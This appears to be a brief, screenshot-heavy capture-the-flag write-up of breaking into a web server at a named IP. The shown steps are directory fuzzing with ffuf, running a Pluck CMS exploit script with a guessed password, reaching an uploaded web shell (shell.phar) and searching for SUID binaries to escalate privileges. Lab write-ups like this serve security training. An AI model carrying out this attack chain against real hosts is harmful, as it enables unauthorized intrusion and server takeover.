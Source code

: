 62.173.140.174:18000

![image](https://user-images.githubusercontent.com/62753044/232470451-dc12ae4f-c0ad-4eea-9330-2185711e60fc.png)

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://62.173.140.174:18000/FUZZ.php

![image](https://user-images.githubusercontent.com/62753044/232470497-7b480313-30a0-4879-a9ca-37ae333b8f88.png)

https://www.exploit-db.com/

![image](https://user-images.githubusercontent.com/62753044/232470532-377d213e-3613-422f-aae1-80e05482bda5.png)

![image](https://user-images.githubusercontent.com/62753044/232470554-d0c0698a-09fd-4736-96dc-aa0d2ddeec97.png)

![image](https://user-images.githubusercontent.com/62753044/232470562-9bc477bf-a32d-4463-941b-c3b7a7cf7306.png)

![image](https://user-images.githubusercontent.com/62753044/232470572-9649635e-19f9-48b5-a5a9-5bb9157d3471.png)

python3 pluck.py 62.173.140.174 18000 liverpool ""

![image](https://user-images.githubusercontent.com/62753044/232470608-b779d938-00d2-4476-831d-eefdd7a53707.png)

http://62.173.140.174:18000/files/shell.phar

![image](https://user-images.githubusercontent.com/62753044/232470645-8a389a66-130a-4638-a106-f03117839217.png)

find / -user root -perm -4000 -print 2>/dev/null

![image](https://user-images.githubusercontent.com/62753044/232470696-90df487f-fb18-46ce-af41-71edefcf2321.png)

![image](https://user-images.githubusercontent.com/62753044/232472019-89153e96-0a60-4445-bc7f-90ca95d223bb.png)

![image](https://user-images.githubusercontent.com/62753044/232472463-03194abf-c54b-490f-ba9d-fd53099fdb69.png)

![image](https://user-images.githubusercontent.com/62753044/232472878-e784c124-ce40-4b6c-9fe9-442e0331e55d.png)

